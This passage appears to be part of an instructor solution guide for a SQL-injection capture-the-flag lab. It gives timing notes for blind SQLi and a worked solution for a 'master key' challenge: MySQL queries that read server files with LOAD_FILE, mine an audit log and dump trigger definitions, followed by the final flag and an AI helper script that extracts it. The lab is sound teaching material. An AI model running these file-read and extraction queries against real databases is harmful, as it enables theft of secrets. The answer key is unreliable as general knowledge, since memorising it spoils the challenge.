 **Teaching Moment:**
- Blind SQLi techniques
- When to use automation
- AI can speed up exploitation significantly

**Time Comparison:**
- Manual boolean-based: ~20-30 minutes
- UNION-based: ~2 minutes
- sqlmap: ~5 minutes
- AI-optimized: ~3 minutes

---

### PHASE 5: KEY EXTRACTION (45 minutes)

#### Challenge 10: Master Key Extraction via Multi-Stage Attack (250 pts)

**Objective:** Combine all techniques to reconstruct master key from 3 parts

**Solution:**

**Part 1: File Read (requires FILE privilege from Challenge 4)**
```bash
mysql> SELECT * FROM file_references WHERE file_type = 'secret';
# Shows: /var/lib/mysql/secret_part1.txt

mysql> SELECT LOAD_FILE('/var/lib/mysql/secret_part1.txt');
# OR check file_references.content column
# Result: KEY_PART_1: e68df663d998
```

**Part 2: Log Analysis**
```bash
mysql> SELECT * FROM audit_log WHERE action = 'master_key_fragment';
# Result: KEY_PART_2: 8e4f0cb7abc1
```

**Part 3: Trigger Enumeration**
```bash
mysql> SHOW TRIGGERS;
mysql> SHOW CREATE TRIGGER master_key_trigger;
# Look for comment: -- Master Key Part 3: def234567890
# Result: KEY_PART_3: def234567890
```

**Reconstruct Final Flag:**
```
Part 1: e68df663d998
Part 2: 8e4f0cb7abc1
Part 3: def234567890

Final Flag: FLAG{e68df663d9988e4f0cb7abc1def234567890}
```

**Using AI Tool (Automated):**
```bash
cd ai-helpers
python log_analyzer.py --user ctf_user --password <from .env>
# Automatically extracts all 3 parts and reconstructs flag
```
